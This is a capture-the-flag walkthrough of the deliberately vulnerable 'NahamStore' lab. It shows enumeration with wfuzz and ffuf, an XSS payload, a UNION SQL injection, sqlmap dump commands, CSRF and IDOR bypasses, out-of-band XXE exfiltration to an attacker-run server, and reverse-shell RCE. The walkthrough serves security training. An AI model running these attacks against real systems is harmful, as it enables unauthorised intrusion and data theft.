

# Naham Store

## Recon

### Subdomains

`wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://nahamstore.thm/" -H "Host: FUZZ.nahamstore.thm" --hw 65`

Output with colors ( -c ) payload ( -z ) url ( -u ) Host ( -H ) Hide words ( --hw 65 )

`www.nahamstore.thm`

`stock.nahamstore.thm`

`marketing.nahamstore.thm`

`shop.nahamstore.thm`

Add them to `/etc/hosts` file

## nahamstore.thm

### LFI

After searching a bit we got the flag that we wanted

### Open Redirect

If follow the redirect it goes to `http://10.9.11.107:8000/`

More redirect

Easy way to find redirects, browse the hole website with brup, and inside burp activate this setting 

The other redirect is on the parameter `r`, to find this we had to do a parameter FUZZ

### stock.nahamstore.thm

Found the subdomain stock.nahamstore.thm by whatching some requests on Burp and the found this one:

Then i added to `/etc/hosts` file and the site showed this

Its the API from `nahamstore.thm`

## marketing.nahamstore.thm

### XSS

Payload ``

Payload used  `'; alert(document.domain);’` we bypass the script value and insert a new one

The output

### Stored XSS

- nahamstore.thm
    - Shipping address ( <> & # ; )
    

User agent > payload ``

Text area XSS

### XSS name parameter

Insert random value and inspect

Here we escape the title tag and insert the XSS payload

### Discount

If we pass that parameter to a GET request it will be transferd to the URL

Payload

### XSS Not found page

## CSRF

### Change password

Here we can see there is no csrf protection

### Change email

I tried csrf with the given csrf token

But got the error invalid token, so i removed the token completely, leaving the request like this

And we bypassed the protection

### Token encoding type

## IDOR

Found IDOR when we submit the purchase and we use an address

When we put id with the value 3 we get the flag

### Next IDOR

Now we need to get the details of order number 3

When we try to generate a PDF with id 3 it give me this error

After some research of IDOR we could user parameter polution, and this worked `what=order&id=3%26user_id=3`

## XXE

### First XXE

Fuzzing parameters with `ffuf -u http://stock.nahamstore.thm/product/1?FUZZ -w burp-parameter-names.txt -fs 41`

After knowing there is a xml parameter we try to use it

Now we know that we can put some XML inside the page, but there was this error

To bypass this i used the entity `<root>` with `<X-Token>` and we got the flag using this payload

### Blind XXE

We saw that we have a restriction, it only accepts `.xlsx` files inside the `PayloadAllTheThings` there is some payloads that worked

- First we need to create a exel file and export it as `.xlsx`
- Then send it to your atacker machine
- After having the file we have to unzip it `unzip test.xlsx` , the output should be like this

As we saw in the PayloadAllTheThings

We just copy that payload to our file extracted file `xl/workbook.xml` and put your local IP

Here we can see that the payload access the `xxe.dtd` file so we need to open a local server

**Open python HTTP server**

To open a Python Web Server we use the command `python3 -m http.server 80`

After that we have to export all the files to a new `.xlsx` to do that we use  `7z u ../evil.xlsx *` and make sure you are inside this directory

Now we need to try if the payload is accessing our local server by uploading the new `.xlsx` file

Now check if the python web server responded something like this

This means that he is trying to get the `xxe.dtd` file but there isn’t, now its time to create that file

Create a file named `xxe.dtd` with this content but with your IP

Now we need to make a ftp server

Let’s download the xxeserv, use this command `git clone https://github.com/staaldraad/xxeserv.git` now use `cd` inside the `xxeserv` and do `go mod init xxeftp.go`

Now we can do `go build`

Run the FTP server

`./xxeftp.go -o files.log -p 2121 -w -wd public -wp 8000`

Now that we have all the things ready let’s exploit it

Go the website and upload the `evil.xlsx`

Inside the python server should look like this 

And inside the ftp server

Now that all is good we need to cat the files.log were the `./xxeftp` is

## RCE

In this step i was stuck so i came back to recon and there was a port 8000 and it was empty after some directory fuzzing

`ffuf -u http://10.10.57.149:8000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Login page, with admin:admin credentials

After inspecting the code i found this link

Here was html code, so i just put there a php reverse shell

Payload

Getting the flag

### Blind RCE

There was no response from the website so we had to do blind rce by using a reverse shell and checking if it connects back to us.

Open a nc listener

PayloadAllTheThings reverse shell

After modifying a bit the shell we got the connection

Getting the flag

### SQL Injection

Found that the site accepts 5 columns per query

`/product?id=2 UNION SELECT NULL,NULL,NULL,NULL,NULL`

Then i had to change to id 3 because it doesn’t exist and there is the output of the flag

`/product?id=3 UNION SELECT null,flag,NULL,NULL,null from sqli_one`

### Blind SQL injection

After testing for every endpoint found, we could get SQLi inside `/returns`

I copied the request and put inside txt file and then to SQLmap

`sqlmap -r request.txt --batch` with this command the sqlmap will find the vulnerability

Then we need to do `sqlmap -r request.txt --dbs` to get the database name, once we found it we can retrive the tables using `sqlmap -r request.txt -D nahamstore --tables`

Getting the content of `sqli_two`, use `sqlmap -r request -D nahamstore -T sqli_two --dump`

And you will get the flag

